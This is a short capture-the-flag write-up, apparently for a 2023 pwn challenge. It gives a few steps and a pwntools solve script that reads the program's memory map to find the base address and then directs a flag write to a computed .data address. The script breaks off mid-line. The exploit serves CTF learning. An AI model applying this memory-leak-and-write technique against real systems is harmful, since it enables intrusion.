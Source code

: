 - The goal is to write the flag to a specific address and retrieve it.
    

- The program prints the contents of "/proc/self/maps", allowing us to determine the base address.
    

- By calculating the offset of a string in the binary and adding it to the base address, we can determine an address to write the flag.
    

- We need to parse the output of the program and calculate the address dynamically.
    

- Once we have the address, we can provide it as input and retrieve the flag.
    

To solve the challenge, a script is needed to parse the output of the program, calculate the address based on the base address, and interact with the program to write the flag to the desired address. The script will retrieve the flag and complete the challenge. 

**solve.py**

```python
from pwn import *

io = remote('wfw1.2023.ctfcompetition.com',1337)
context.log_level='info'

# Offset to the string in .data sectio which is being printed in while loop
data_string_offset = 0x21e0

# Find the piebase
maps = io.recvuntil(b'/home/user/chal')
maps = maps.split(b'/home/user/chal')[0].split(b'\n')[-1]
piebase = int(maps[:12], 16)
pieend = int(maps[13:-48], 16)

info("Pie base: %#x", piebase)
info("Pie end: %#x", pieend)
io.recvuntil(b'expire\n')

# Send address of label in .data, it will be overwritten with flag
# Then on the next iteration of the loop, it will print
io.sendline(hex(piebase + data_string_offset).encode() + b' 127')

# Spit flag
warning(io.recv().decode
```
